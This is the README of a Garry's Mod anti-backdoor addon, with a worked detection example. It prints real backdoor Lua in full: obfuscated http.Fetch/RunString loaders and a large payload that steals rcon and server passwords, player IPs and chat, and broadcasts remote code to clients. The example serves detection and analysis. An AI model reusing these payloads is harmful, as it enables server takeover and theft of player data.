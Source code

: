 # Garry's Mod - Backdoor Shield

Protect your GMod server against backdoors! Block, find, investigate and remove them.

But beware: all detections are based on prohibited function call combinations or on very suspicious terms encountered when scanning "texts". Unfortunately Lua knowledge is required to understand the what's going on.

![image](https://user-images.githubusercontent.com/5098527/167985260-d2e325c7-b310-4eee-a246-ecde898fd5d2.png)

# Incompatibilities

> DO-NOT-USE this addon on servers with paid mods!!!! Many of them have complex DRMs, which in most cases get detected and blocked. This can lead to serious authentication problems and even license loss! If you suspect that your addons are infected, run them along Backdoor Shield in a clean server/GMod instance!

> Avoid addons that set their own environment because they can break, like:
> - gmDoom - https://steamcommunity.com/sharedfiles/filedetails/?id=133300986

Also, consider Backdoor Shield as W.I.P! Know that I don't intend to add fancy features or even make this addon user friendly, this project is a hobbyist experiment.

# What is a backdoor?

> "a backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application. Once they're in, cybercriminals can use a backdoor to steal personal and financial data, install additional malware, and hijack devices." - Malwarebytes

As for backdoors, in GMod very often we confront entire groups with pre-made panels using complex functions, there's a market for that.

Although the security of the game has increased a lot over time, these attacks are still very dangerous as they can culminate in theft of scripts, settings and personal data as well as other types of damage. E.g. someone with improper admin access can either delete all files in the data folder or slowly cause server issues until the players give up on it.

# Features

Backdoor Shield

- Starts before all addons;
- Has the internal code highly protected;
- Has a custom logs system, colored;
- Was tested against 1500+ addons, both from workshop and forums;
- Has a files scanner, that:
  - Can read files from any extension quickly and intelligently;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Uses a weight system to determine which detections are important;
  - Prints the relevant results;
  - Logs detections organized by risk.
- Has real-time protection, that:
  - Checks the functions parameters/arguments;
  - Protects the stack calls checking functions by address;
  - Undoes protected functions detouring;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Can turn off its components individually;
  - Is capable of producing traces even through tail calls;
  - Has a simple extra window to warn of detections;
  - Prints detections to the console;
  - Logs detections both grouped and individually.

Honestly, I don't know of a free GMod scanner addon that does all this.

# Install

Clone or download the files inside your **addons folder**.

You can also subscribe to BS in the Workshop, but that way you won't be able to change the addon settings later: https://steamcommunity.com/sharedfiles/filedetails/?id=2215013575

# Configure

All settings are in three files in this folder:
- **lua/bs/server/definitions/**

There's one for the file scanner, one for real-time protection, and one for internal behaviour. Everything is documented at each location.

# Commands

As shown in the screenshot above:

    Commands:
    |
    |-> bs_scan FOLDER(S)       Recursively scan lua, txt, vmt, dat and
    |                           json files in FOLDER(S).
    |
    |-> bs_scan_full FOLDER(S)  Recursively scan all files in FOLDER(S).
       
        * If no folder is defined, it'll scan addons, lua, gamemodes and
          data folders.

Be aware that it's better to run these commands on a dedicated server or in lan mode, as in singleplayer the game will practically freeze until the scan finishes.

It's also worth noting that focusing searches is much faster than scanning entire addons libraries, so prefer:

    bs_scan_full addons/myAddonA addons/myAddonB

Another interesting thing to do here is to isolate suspicious files in subfolders within the addons folder (like addons/isolation/suspiciousAddon). That way, the game will mount all the contents but they won't be executed. Obviously the it'll look like this:

    bs_scan_full addons/isolation/suspiciousAddon


Note: there's also the ``bs_tests`` command to aid in development. It's enabled when dev mode is turned on.

# Logs

They're stored in **data/backdoor-shield**.

![image](https://user-images.githubusercontent.com/5098527/167988691-5b611163-0a22-41fc-8011-c38e083c0516.png)

<details><summary>File scanner</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990351-941bd7ef-abc0-4e6a-8600-48e097ca3fde.png"/>

Logs from the file scanner are are organized by date and time. Within them, the information is grouped by risk.

<img src="https://user-images.githubusercontent.com/5098527/167990714-480bb9f3-30df-44f7-bcca-216f14e6c957.png"/>
</p>
</details>

<details><summary>Real-time</summary>
<p>

<img src="https://i.imgur.com/BDk6TJk.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167990081-4d8a0a56-6235-43bd-b08d-da32c3bfd6e4.png"/>

As for the real-time detections, they are in subfolders named by date and are organized in two different ways.

<img src="https://user-images.githubusercontent.com/5098527/167988995-2b2443dc-037f-47c8-91f0-597504ea04ba.png"/>

In the first one, items are grouped by "detections", "warnings" and "detours", as shown above. Within these files the entries are placed in order of occurrence:

<img src="https://user-images.githubusercontent.com/5098527/167989406-cdac9556-a728-424f-9f58-d1198f04cde9.png"/>

In the second, each detection is placed inside subfolders with the name of the detected function and relevant items such as pieces of malicious code.

<img src="https://user-images.githubusercontent.com/5098527/167989468-366ef03a-b663-42cb-907b-8cafb25c8e4c.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167989517-e422463d-d7e1-4293-99a6-724169fa8fba.png"/>
</p>
</details>

# Real-time protection example

The example below was made in an older version of the addon but it's ok, the idea is still very similar to the current one.

## Detection

<details><summary>1) Running two backdoors</summary>
<p>

```lua
-- Dead backdoor:

RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )
```

</p>
</details>

<details><summary>2) The detection occurs</summary>
<p>
<img src="https://i.imgur.com/BDk6TJk.png"/>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) The logs are stored</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>4) We can see the blocked contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/PUX4QG3.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: RunString
    Date: 08-29-2020
    Time: 19h 34m 56s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/RunString/log_blocked_(19h 34m 56s).txt
    Detected:
        RunString
        http.Fetch
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'RunString'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:3: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

http.Fetch("http://buriedselfesteem.com/rekt/rekt.lua", function(c) RunString(c) end )
```

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 37m 32s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 37m 32s).txt
    Url: https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx
    Detected:
        RunString
        RunString
        http.Fetch
        http.Post
        _G[
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:7: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "


local sKqYgoHBFGNoMavJtTsX = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    "\46\99\102",
    "\46\116\107",
    "\46\121\111\46\102\114",
    "\46\121\110\46\102\114",
    "\46\48\48\48\119\101\98\104\111\115\116",
    "\97\108\119\97\121\115\100\97\116\97\46\110\101\116",
    "\46\103\113",
    "\46\120\121\122",
    "\46\101\115\121\46\101\115",
    "\46\109\108",
    --[[ DOMAINS BACKDOORS ]]
    "\100\114\109\46\103\109",
    "\103\118\97\99\100\111\111\114",
    "\103\118\97\99",
    "\107\112\97\110\101\108",
    "\108\107\112\97\110\101\108",
    "\119\116\102\109",
    "\103\109\97\112",
    "\103\45\104\117\98",
    "\103\112\97\110\101\108",
    "\97\115\116\105\108\108\97\110",
    "\103\104\97\120",
    "\106\101\108\108\121\105\115\97\102\97\103",
    "\115\105\122\122\117\114\112",
    "\104\97\121\108\97\121",
    "\114\118\97\99",
    "\99\105\112\104\101\114\45\112\97\110\101\108",
    "\120\118\97\99\100\111\111\114",
    "\74\117\115\116\45\115\101\114\118",
    "\74\117\115\116\115\101\114\118",
    "\120\101\110\100\111\111\114",
    "\69\120\111\100\111\115\105\117\109",
    "\109\121\119\97\105\102\117",
    "\103\98\108\107",
    --[[ FILES BACKDOORS ]]
    "\115\116\97\103\101\49\46\112\104\112",
    "\115\116\97\103\101\50\46\112\104\112",
    "\101\118\111\46\112\104\112",
    "\101\121\111\46\112\104\112",
    "\98\97\99\107\100\111\111\114\46\112\104\112",
    "\102\108\103\46\94\112\104\112",
    "smart-overwrite",
    "anatik",
    --[[ $_GET BACKDOORS ]]
    "\63\116\111\61",
    "\63\116\111\107\101\110\61",
    "\63\102\117\99\107\95\107\101\121\61",
    "\63\98\97\99\107\100\111\111\114\95\107\101\121\61",
    --[[ DIR BACKDOORS ]]
    "\47\115\121\115\47",
    "\47\99\111\114\101\47",
    "\47\115\101\99\117\114\101\95\97\114\101\97\47"
}


local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP function HTTP(a)     
    if a.url then 
        for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)

",
            2703,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=dfe0c3e4f2be8978d00090d7df7dc9e711598740653; expires=Mon, 28-Sep-20 22:37:33 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,__ddg1=ZRzJovYJDvrB2k895vsn; Domain=.omega-project.cz; HttpOnly; Path=/; Expires=Sun, 29-Aug-2021 22:37:33 GMT",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:37:34 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

## Decoding

Let's continue to see what's going on. I won't explain how I deobfuscated the code but I'll show the results and leave this link here https://www.dcode.fr/ascii-code.

<details><summary>1) Here is the active backdoor decoded</summary>
<p>

It's inhibiting other backdoors through some detourings and taking the next step.

```lua
local nKvWQygqjyMKsWkNbsiO = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    ".cf",
    ".tk",
    ".yo.fr",
    ".yn.fr",
    ".000webhost",
    "alwaysdata.net",
    ".gq",
    ".xyz",
    ".esy.es",
    ".ml",
    --[[ DOMAINS BACKDOORS ]]
    "drm.gm",
    "gvacdoor",
    "gvac",
    "kpanel",
    "lkpanel",
    "wtfm",
    "gmap",
    "g-hub",
    "gpanel",
    "astillan",
    "ghax",
    "jellyisafag",
    "sizzurp",
    "haylay",
    "rvac",
    "cipher-panel",
    "xvacdoor",
    "Just-serv",
    "Justserv",
    "xendoor",
    "Exodosium",
    "mywaifu",
    "gblk",
    --[[ FILES BACKDOORS ]]
    "stage1.php",
    "stage2.php",
    "evo.php",
    "eyo.php",
    "backdoor.php",
    "flg.^php",
    "smart-overwrite 10",
    "anatik 10",
    --[[ $_GET BACKDOORS ]]
    "?to=",
    "?token=",
    "?fuck_key=",
    "?backdoor_key=",
    --[[ DIR BACKDOORS ]]
    "/sys/",
    "/core/",
    "/secure_area/",
}

-- Toma as funções do GMod pra ele
local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP

-- Barra o uso de backdoors bloqueando tudo da lista acima
-- (Se estiver limpo, executa a função)

function HTTP(a)
    if a.url then 
        for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>2) I disabled my old Lua snippets, took the end of the decoded script and ran it</summary>
<p>

```lua
-- Dead backdoor:

--RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

--http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>3) Now I got a new detection with a bunch of new things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 42m 45s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 42m 45s).txt
    Url: https://api.omega-project.cz/api_connect.php?api_key=
    Detected:
        =_G
        RunString
        CompileString
        BroadcastLua
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:9: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned !
]]

local debug = debug
local error = error
local ErrorNoHalt = ErrorNoHalt
local hook = hook
local pairs = pairs
local require = require
local sql = sql
local string = string
local table = table
local timer = timer
local tostring = tostring
local mysqlOO
local TMySQL
local _G = _G
UzjRokDYxAOWbxLIEiRXmogsroltxsCpQgiEkuIR = {}
local server_key = "UrJPyGUdi"_R=_G
if omega_ed463d5fadf4890eca35eb8ea156c847 == "HGEed463d5fadf4890eca35eb8ea156c847" then return end
omega_ed463d5fadf4890eca35eb8ea156c847="HGEed463d5fadf4890eca35eb8ea156c847"
_R["\95\48\120\54\56\51\50\53\51"]=_R["\104\116\116\112"]["\112\111\115\116"] or "timer"
_R["\95\48\120\52\56\50\51\55\54"]=_R["\104\116\116\112"]["\80\111\115\116"] or "Create"
_R["\95\48\120\49\55\54\53\49\52"]=_R["\72\84\84\80"] or "api.omega-project.cz"
_R["\95\48\120\52\53\49\57\53\54"]=_R["\83\101\114\118\101\114\76\111\103"] or ""
_R["\95\48\120\50\57\54\55\56\55"]=_R["\82\117\110\83\116\114\105\110\103"] or "rcon non trouvé"
_R["\95\48\120\51\52\50\52\53\48"]=_R["\102\105\108\101"]["\69\120\105\115\116\115"] or "print"
_R["\65\120\121\117\110\101\77\90\87\69"] = "api.omega-project.cz"
_R["\104\122\100\65\108\99\118\113\106\114"] = "\97\116\108\97\115\45\99\104\97\116\46\115\105\116\101"
_R["\95\48\120\57\52\48\49\51\55"] = _R["\69\114\114\111\114"]
local pGbSGVIuUevjvQbOFgCc, FCPttlLwqrzAChdIZtnd  = "\80\108\97\121\101\114\73\110\105\116\105\97\108\83\112\97\119\110", "\80\108\97\121\101\114\68\105\115\99\111\110\110\101\99\116\101\100"
local header_GwFWGpHBKMfYqsd = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

-- include request
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_anti_backdoors.php"; method="get"; success=function(api,anti_backdoors) _0x296787(anti_backdoors) end })
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_player_blacklist.php"; method="get"; success=function(api,bad_player_blacklist) _0x296787(bad_player_blacklist) end })

local addons_files, addons_folders = _R["file"]["Find"]("addons/*", "GAME")
for k,v in pairs(addons_folders) do
 if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then
  _0x482376([[https://]]..AxyuneMZWE.."/api_addons.php", {server_ip = _R["game"]["GetIPAddress"](),crsf = "LuicBbIVUSxUbwKyGdOPvHgEVMjRiZFsmMhwEuzy#MTg2LjIyOS4yMjYuMTAy#DcKbgZMolAqhaosmSYVGXXJTAgfyqJvQclnitBUy",addons_name = v, addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))}, function(http_addons) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_addons, 1 ) == "<" or http_addons == "" then 
      return 
     else 
      _0x296787(http_addons) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
 end 
end


util.AddNetworkString("cKdwwjkBzpUSproGWmGe")
_R["BroadcastLua"]([[net.Receive("cKdwwjkBzpUSproGWmGe",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function _0x427940(HsQzhjEtDdhsZssJfpfL)
  timer.Simple( 0.5, function( )
   _R["DATA"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["len"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("cKdwwjkBzpUSproGWmGe")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   _R["\110\101\116"]["\66\114\111".."\97\100\99\97\115\116"]()
  end)
end


util.AddNetworkString("QvQaTLXQJvDEmezmiHYj")
_R["BroadcastLua"]([[net.Receive("QvQaTLXQJvDEmezmiHYj",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function SendPly(HsQzhjEtDdhsZssJfpfL, steamid64)
  timer.Simple( 0.5, function( )
   _R["\100\97\116\97"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["\108\101\110"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("QvQaTLXQJvDEmezmiHYj")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   for k, ply in pairs(player.GetAll()) do
     if ( ply:SteamID64() == steamid64 ) then
        _R["\110\101\116"]["Send"](ply)
     end
   end
  end)
end

_R["\104\111\111\107"]["\65\100\100"](pGbSGVIuUevjvQbOFgCc, "nYQUQrWaerewCmEoqjVUvrrkWFAgjfYzfecgMiiTgymFAonGsT", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd",
         ["\99\111\108\111\114"] = "5dc766",
         ["\99\111\110\116\101\110\116"] = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

_R["\104\111\111\107"]["\65\100\100"](FCPttlLwqrzAChdIZtnd, "msBMAtvKWjUOHFZfNCRBemSkQdJnfwcpcfFnPKfQqxcaKEhMma", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         ["color"] = "de3333",
         ["\99\111\110\116\101\110\116"] = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

function ServerLog( logs_content ) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         content = logs_content, 
         server_ip = _R["game"]["GetIPAddress"]()
    },_0x296787) 
    return _0x451956( logs_content ) 
end 

function Error( string )
  _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
       ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
       ["\99\111\110\116\101\110\116"] = string, 
       ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"]()
  },RunString)
  return _0x940137( string )
end

_R["\116\105\109\101\114"]["\67\114\101\97\116\101"]( "FLPcvsCBTQJoZQGLILQUDEVvRmPRvLoyVXEuMYOSOHMaEXDKse", 1, 0, function()
_R["\104\111\111\107"]["\65\100\100"]( "PlayerSay", "ujLFdRUcqVAoqZwfiMSQpZeWbcvItgnNitYilclAqwPUvxSmZW", function( ply, text )
local http_chat_table = {
    name = ply:Name(), 
    server_ip = _R["GetTcpInfo"](), 
    steamid64 = ply:SteamID64(),
    nyFaIvniEL = "TPlnCsTLWywBNOdjsIEpiZEXJLCAJoQzesllKZlW",
    BtNDxRHcgb = "PCBKWTMGVJirRWrxIPNjkwOesDxXxeFDdpepUfdM",
    jcqaplfenV = "crraFpbGqRmxDQCenENbzIJAuNUFieGTgdJoBiZG",
    LEUJYRpUyx = "aizJdLXTEVPoYQQsgMOdzSwCmNazHfRFrFNnffmT",
    FBWCeMNeTL = "LSxRhSnkNHyrbgtboMNzAiTZFrsnkkcLYGwciHlo", 
    message = text
  } 
_0x482376([[https://]]..AxyuneMZWE.."/chat_connect.php?haoaOPspJnETKyz=trPtLhCynfaGkLt", http_chat_table, function(http_chat) _0x296787(http_chat) end)
end)
if _0x342450("\99\102\103\47\97\117\116\111\101\120\101\99\46\99\102\103","GAME") 
  then local cfile = file.Read("cfg/autoexec.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) do 
    if string.StartWith(v,"rcon_password") 
    then rcon_pw = string.Split(v,"\"")[2] 
   end
  end 
end
if _0x342450("\99\102\103\47\115\101\114\118\101\114\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/server.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end 
if _0x342450("\99\102\103\47\103\97\109\101\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/game.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end  
 if _0x342450("\99\102\103\47\103\109\111\100\45\115\101\114\118\101\114\46\99\102\103","GAME") 
 then cfile = file.Read("cfg/gmod-server.cfg","GAME") 
 for k,v in pairs(string.Split(cfile,"\n")) 
 do if string.StartWith(v,"rcon_password") 
 then rcon_pw = string.Split(v,"\"")[2] 
   end 
  end 
end
if rcon_pw == "" then
 rcon_pw = "Aucun Rcon"
end
for k,v in pairs(player.GetAll()) do 
local DrkaWVDhZhRCHgyRGENj = {
    ["\110\97\109\101"] = v:GetName(),
    ["\105\112"] = v:IPAddress(),
    ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"](),
    ["\99\114\115\102"] = "MMsFDCxvTbPfHnPUwcylyHhezmHbOsBlvhTiNhRz#MTg2LjIyOS4yMjYuMTAy#jSUttWLIHMKvFliWsMJRcDpxwgTHvKxLaPfwDBtZ",
    ["\115\116\101\97\109\105\100"] = v:SteamID(),
    ["\115\116\101\97\109\105\100\54\52"] = v:SteamID64(),
    ["OcvWPRmzdQ"] = "cZEHIshMiGdcmjIwgHRIBVckfUarvjwptUvgdeuw",
    ["khpvEspqLQ"] = "aaQsnnUqsxaGyqJkHqqxHCWJeAJMBHnixRPiFeQk",
    ["cZiGZpQXxK"] = "suKIfVNfRKCTdhQrvzbvKHfPmJMDyVfbdAdBTCtv",
    ["yNpPvxIEYQ"] = "jxcvvCnbgmfVMFbIxDIsIizjgGgSKeOCUTjiWdwm",
    ["NGiFdbJnXv"] = "dcUYvgSiZSvgHzSliHVxdliXIEMLhrzWhJPNpiZy"
  }
_0x482376([[https://]]..AxyuneMZWE.."/user_connect.php?rzfmjhnXKtVupXH=stmWrBHtmIsKpxN&ping=" .. v:Ping(), DrkaWVDhZhRCHgyRGENj, function( http_users ) 
     if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_users, 1 ) == "<" or http_users == "" then
       return
     else
       _0x296787( http_users )
     end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd )
end
  local VsTWOaUGyYXokLUQDOTO = {
    ["\105"] = _R["GetTcpInfo"](),
    ["\110"] = _R["\71\101\116\72\111\115\116\78\97\109\101"](),
    ["\109"] = _R["\103\97\109\101"]["\71\101\116\77\97\112"](),
    ["\98\111"] = _R["\116\111\115\116\114\105\110\103"](#_R["\112\108\97\121\101\114"]["\71\101\116\66\111\116\115"]()),
    ["\99"] = _R["\103\97\109\101"]["\71\101\116\73\80\65\100\100\114\101\115\115"]().."{+}"..server_key.."{+}".."1598740966",
    ["\103"] = _R["\101\110\103\105\110\101"]["\65\99\116\105\118\101\71\97\109\101\109\111\100\101"](),
    ["\99\114\115\102"] = "MTg2LjIyOS4yMjYuMTAy#HAxFpswxUQiTyulaKvyYIkQxTCoXuLzjFBBoHsfC",
    ["\110\98"] = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
    ["\108\117\114\108"] = _R["GetConVar"]("sv_loadingurl"):GetString(),
    ["\112\97\115\115"] = GetConVar("\115\118\95\112\97\115\115\119\111\114\100"):GetString(),
    ["\107"] = "",
    ["\99\108\105\101\110\116".."_".."\102\117\110\99"] = "_0x427940",
    ["\114"] = rcon_pw,
    ["eBQErysiKP"] = "XDuoiBjxoHEwaPvznpkehEuKxGcGxwsAoxBzjpAZ",
    ["dufqbNcvWE"] = "NrpfyEcyJIyupTUKZTaRoxzouNBZZHtYnuGxxLaF",
    ["GxRQEDghgj"] = "XJGGIQUzmaJxUsZZUUdTCyKuTlotFXznZhEgWZoe",
    ["ECFmDAYImx"] = "WvXwVKAUamKSoEAOVmzbHCyxhvVnDjOrLsasylcp",
    ["TlQPyMqTiE"] = "pVMWPprumKRsZrYSjDVCkoSOZsCwGWLWGlgSZNWt"
  }
  _0x482376("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", VsTWOaUGyYXokLUQDOTO, function(http_servers) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_servers, 1 ) == "<" or http_servers == "" then 
      return 
    else 
      _0x296787(http_servers) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
end)

if 1 == 0 or 1 == 1 then
   local no_spam_plz = "cGhYBOTiQHkqBsENnrGnMPLxvwfEEwZlnpxlZHUHDCWdlWrrYB"
   CONNECTED_TO_MYSQL = true
   local all_server = sql.Query("SELECT * FROM server_list")
end

",
